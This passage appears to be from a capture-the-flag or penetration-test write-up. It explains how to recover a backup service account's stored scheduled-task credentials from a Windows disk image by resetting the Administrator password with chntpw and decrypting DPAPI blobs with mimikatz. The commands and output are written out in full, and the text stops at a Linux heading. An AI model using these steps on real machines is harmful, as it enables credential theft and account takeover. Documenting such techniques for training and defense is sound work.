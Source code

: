 This shows that there is a user svc_backup, which is likely the user that is used to connect to the Linux machine and place the backup files there. Unfortunately these hashes do not crack. Our best chance would be to find a cleartext password. In `C:\temp` we also find a backup PowerShell script, so maybe this is run by Scheduled Task.

To check for stored scheduled task credentials, we list their folder:

```
dir /A E:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials
...
```

This will show that such credentials do indeed exist - we can try to decrypt them from the disk image but in this case I'm going to show how to boot the image and login. Next we are going to reset the administrator password on the disk image, so we can login without knowing the old password:

```
# sudo apt install chntpw
chntpw -l SAM
chntpw -i SAM 

===== chntpw Edit User Info & Passwords ====

| RID -|---------- Username ------------| Admin? |- Lock? --|
| 01f4 | Administrator                  | ADMIN  |          |
| 01f7 | DefaultAccount                 |        | dis/lock |
| 01f5 | Guest                          |        | dis/lock |
| 03e8 | svc_backup                     |        |          |
| 01f8 | WDAGUtilityAccount             |        | dis/lock |
```

After resetting the password, we replace the SAM file with the one we manipulated and then disconnect the disk. We attach it to a new machine and boot from it. After logging into the administrator account, we use mimikatz to dump scheduled task credentials:

```
.\mimikatz.exe
privilege::debug
token::elevate
sekurlsa::dpapi
...
   * MasterKey :  cf24...
   * sha1(key) :  2dac...

dpapi::cred /masterkey:cf242... /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\FB28D44A1080F4C10BF3530DD6D7B9E1 /unprotect 

Decrypting Credential:
  ...
  UserName       : FILE02\svc_backup
  CredentialBlob : ***
  Attributes     : 0
```

### Linux 
